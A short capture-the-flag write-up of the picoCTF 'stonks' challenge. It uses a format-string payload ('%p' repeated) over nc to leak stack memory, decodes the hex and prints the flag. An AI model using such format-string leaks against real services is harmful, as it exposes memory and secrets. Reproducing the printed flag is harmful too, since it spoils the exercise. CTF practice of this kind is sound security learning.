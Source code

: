 ### writeup on binary_exploitation

#### stonks

opened the challenge in ubuntu 
opened 1 terminal . downloaded vuln.c file using `wget https://mercury.picoctf.net/static/17ba7f9351aca192c45833c658742fe5/vuln.c`
tried running it using `./a.out` . Entered the value 1 for buying stocks . Didn't work  
Entered 2 for viewing portfolio . Didn't work
opened the c program using `nano vuln.c` . noticed that API key comes under buying stonks but it didn't work 
opened another terminal for connecting using nc command `nc mercury.picoctf.net 27912` 
entered 1 for buying stocks . It worked because it asked for entering API key
entered multiple values and none of them worked
finally referred to some writeups . they said that you have to search for pointer data
used `%p%p%p%p%p%p%p%p` as %p represents pointer type data
got value in hexadecimal format '0x8b953900x804b0000x80489c30xf7fa5d800xffffffff0x10x8b931600xf7fb31100xf7fa5dc7(nil)0x8b941800x20x8b953700x8b953900x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x346364620x616535320xffbd007d'
tried using both first part and second part in hexadecimal converter. the second part after (nil) has a flag 
got this '7¹Socip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10ÿ½}' after convering hexadecimal to ASCII in 'https://neapay.com/online-tools/hex-to-ascii-converter.html'
filtered all the unreadable data
got this 'ocip  {FTC  0l_I  4_t5  m_ll  0m_y  _y3n  2fc1  0a10}'
the flag is there but it seems to have each 4 digits reversed(since we took it as hexadecimal hence each 4 digits are reversed) 
after reversing everything manually got the flag
```
flag : picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}
```
